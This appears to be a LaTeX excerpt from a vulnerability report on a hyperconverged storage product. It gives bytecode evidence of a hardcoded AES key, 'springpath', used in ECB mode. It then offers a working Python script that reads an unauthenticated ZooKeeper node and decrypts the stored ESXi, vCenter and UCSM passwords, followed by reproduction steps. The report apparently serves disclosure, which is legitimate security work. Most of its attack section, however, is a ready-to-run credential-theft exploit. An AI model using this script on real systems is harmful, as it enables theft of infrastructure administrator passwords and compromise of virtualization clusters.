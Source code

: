 \documentclass[11pt,a4paper]{article}
\begin{document}
\subsection*{Technical Evidence (6.0.2b)}

\begin{lstlisting}
# javap -verbose EsxAuthZKMgmtImpl.class (stMgr-1.0.jar, 6.0.2b):
#496 = Utf8              springpath
#497 = String            #496    // springpath
# bytecode offset 0:  ldc_w #497  // String springpath
# bytecode offset 83: invokevirtual EncryptionUtil$.decryptData
# bytecode offset 98: invokevirtual EncryptionUtil$.decryptData

# javap -verbose BasicEncryptionUtil.class (hxSecuritySvcMgr-1.0.jar, 6.0.2b):
# offset 33: ldc #79  // String AES/ECB/PKCS5Padding

# ZK path (ZKConstants$.class, common-1.0.jar):
# BASE_PATH = "/storvisor2"  SERVICE_NAME_MGR = "stCluster"
# -> /storvisor2/stCluster

# Decrypt any field from the ZK payload:
import hashlib, base64
from Crypto.Cipher import AES

def hxdp_decrypt(b64_ct, key='springpath'):
    k = hashlib.sha256(key.encode()).digest()
    c = base64.b64decode(b64_ct)
    return AES.new(k, AES.MODE_ECB).decrypt(c)

# Read payload from ZK (no auth) and decrypt:
from kazoo.client import KazooClient; import json
zk = KazooClient('<ctlvm>:2181'); zk.start()
payload = json.loads(zk.get('/storvisor2/stCluster')[0])
print(hxdp_decrypt(payload['esx_password']))          # ESXi password
print(hxdp_decrypt(payload['url_vcenter_encrypted_password']))  # vCenter
print(hxdp_decrypt(payload['ucsm_pwd']))              # UCSM
zk.stop()
\end{lstlisting}

\subsection*{Reproduction}

\begin{enumerate}
\item Read \texttt{/storvisor2/stCluster} from ZooKeeper port 2181 without
  credentials.
\item Run \texttt{hxdp\_decrypt(value, 'springpath')} on each encrypted field.
\item Decrypted output includes ESXi password, vCenter password, and UCSM
  password.
\end{enumerate}
\end{document}
